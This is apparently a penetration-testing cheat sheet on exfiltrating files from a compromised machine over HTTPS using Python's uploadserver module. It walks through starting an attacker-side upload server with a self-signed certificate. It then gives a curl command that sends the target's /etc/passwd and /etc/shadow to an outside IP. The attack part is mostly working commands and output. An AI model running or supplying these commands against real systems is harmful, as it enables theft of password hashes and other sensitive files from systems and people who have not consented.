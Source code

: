Use Python’s `uploadserver` module to **securely upload files** from a compromised machine over HTTPS. Perfect for environments where HTTP is blocked or when encryption is required.

---

## **1. Install `uploadserver` (Attacker Machine)**

Run:

```bash
sudo python3 -m pip install --user uploadserver
```

Example output:

```
Collecting uploadserver
Successfully installed uploadserver-2.0.1
```

---

## **2. Create a Self-Signed Certificate (Attacker Machine)**

Generate a quick self-signed certificate:

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

This creates a file named `server.pem` that contains both the certificate and key.

---

## **3. Create a Directory for Your Server (Attacker Machine)**

Keep your uploads organized:

```bash
mkdir https && cd https
```

---

## **4. Start the HTTPS Upload Server (Attacker Machine)**

Run the server on port 443:

```bash
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

Example output:

```
File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

---

## **5. Upload Files from Target Machine**

Use `curl` to upload files over HTTPS.  
Example for uploading `/etc/passwd` and `/etc/shadow`:

```bash
curl -X POST https://192.168.49.128/upload \
  -F 'files=@/etc/passwd' \
  -F 'files=@/etc/shadow' \
  --insecure
```

**Why `--insecure`?**  
Because the certificate is self-signed. This flag tells `curl` to skip certificate validation.

---

## **Tips**

- Always verify the IP and port match your server setup.
    
- Use a proper certificate for production environments to avoid `--insecure`.
    
- Works for both Linux and Windows targets if `curl` or similar tools are available.
    

---
